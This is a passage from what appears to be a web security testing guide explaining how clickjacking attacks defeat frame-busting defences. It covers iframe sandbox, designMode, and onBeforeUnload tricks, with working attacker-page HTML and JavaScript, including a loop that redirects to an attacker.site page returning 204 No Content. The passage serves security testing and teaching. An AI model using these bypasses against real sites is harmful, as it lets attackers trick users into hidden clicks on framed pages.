 Example:
```
<iframe src="http://target site" sandbox></iframe>
```

* Design mode: Paul Stone showed a security issue concerning the "designMode" that can be turned on in the framing page (via document.designMode), disabling JavaScript in top and sub-frame. The design mode is currently implemented in Firefox and IE8.


**onBeforeUnload event**
<br>
The onBeforeUnload event could be used to evade frame busting code. This event is called when the frame busting code wants to destroy the iframe by loading the URL in the whole web page and not only in the iframe. The handler function returns a string that is prompted to the user asking confirm if he wants to leave the page. When this string is displayed to the user is likely to cancel the navigation, defeating traget's frame busting attempt.


The attacker can use this attack by registering an unload event on the top page using the following example code:

```
<h1>www.fictitious.site</h1>
<script>
   window.onbeforeunload = function()
   {
      return " Do you want to leave fictitious.site?";
   }
</script>
<iframe src="http://target site">
```


The previous technique requires the user interaction but, the same result, can be achieved without prompting the user. To do this the attacker have to automatically cancel the incoming navigation request in an onBeforeUnload event handler by repeatedly submitting (for example every millisecond) a navigation request to a web page that responds with a "HTTP/1.1 204 No Content" header.

Since with this response the browser will do nothing, the resulting of this operation is the flushing of the request pipeline, rendering the original frame busting attempt futile.


Following an example code:

204 page:
```
<?php
   header("HTTP/1.1 204 No Content");
?>
```

Attacker's page:
```
<script>
	var prevent_bust = 0;
	window.onbeforeunload = function() {
		prevent_bust++;
	};
	setInterval(
		function() {
			if (prevent_bust > 0) {
				prevent_bust -= 2;
				window.top.location = "http://attacker.site/204.php";
			}
		}, 1);
</script>
<iframe src="http://target site">
```

